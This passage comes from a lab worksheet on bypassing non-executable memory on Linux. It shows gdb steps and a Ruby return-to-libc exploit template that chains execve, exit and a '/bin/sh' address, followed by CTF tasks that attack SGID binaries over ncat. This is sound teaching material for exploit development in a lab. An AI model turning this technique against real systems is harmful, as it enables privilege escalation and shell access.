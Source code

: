 That’s a long list of memory addresses containing 0x00000000, great\! Now we just need to make sure that we have one with no bad characters in.

==action: Confirm that you've got a memory address that contains 0x0000000:==

```bash
(gdb) x/wx ==edit:Zero-Address==
```

==VM: On the Kali Linux VM (attacker/exploit development)==

==action: Update your script with the ***Zero-Address***:==

```ruby
  offset = "==edit:Offset-Value=="
  # eip = "BBBB"
  execve = ["==edit:Execve-Address=="].pack('V')   # mem addr of execve()
  eip = execve
  ret_exit = ["==edit:Exit-Address=="].pack('V') # return address i.e. mem addr of exit() function
  bin_sh = ["==edit:New-BinSh-Address=="].pack('V')   # mem addr of "/bin/sh" string
  # zero = [Zero-Address].pack('V')     # mem addr that contains 0x00000000 
  function
  
  bad = "A" * offset + eip + ret_exit + bin_sh + zero + zero
```

> Tip: Remove the "" around hex addresses: use `[0x00000000].pack('V')` rather than `["0x00000000"].pack('V')`


==action: Save your script and run the exploit==.

![][image-18]


## CTF Challenge 1 {#ctf-challenge-1}

Challenge one included no randomisation for demonstration purposes. 

> Flag: Run the SGID version (\~/challenges/Ch\_nx\_BOF\_1/Ch\_nx\_BOF\_1) over the network with ncat and attack it with your exploit, then read the flag.

## CTF Challenges 2 and 3 {#ctf-challenges-2-and-3}

> Flag: The second and third challenges follow the same approach as above. 

> Tip: The binaries have some slight randomness, so the data you need to find will have different offset’s and memory addresses.

## Conclusion {#conclusion}

At this point you have:

* Learned about non-executable regions of memory

* Written a return-to-libc exploit, which avoided running any code on the stack, which involved:


[image-1]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-1.png
[image-2]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-2.png
[image-3]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-3.png
[image-4]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-4.png
[image-5]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-5.png
[image-6]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-6.png
[image-7]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-7.png
[image-8]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-8.png
[image-9]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-9.png
[image-10]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-10.png
[image-11]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-11.png
[image-12]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-12.png
[image-13]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-13.png
[image-14]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-14.png
[image-15]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-15.png
[image-16]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-16.png
[image-17]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-17.png
[image-18]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-18.png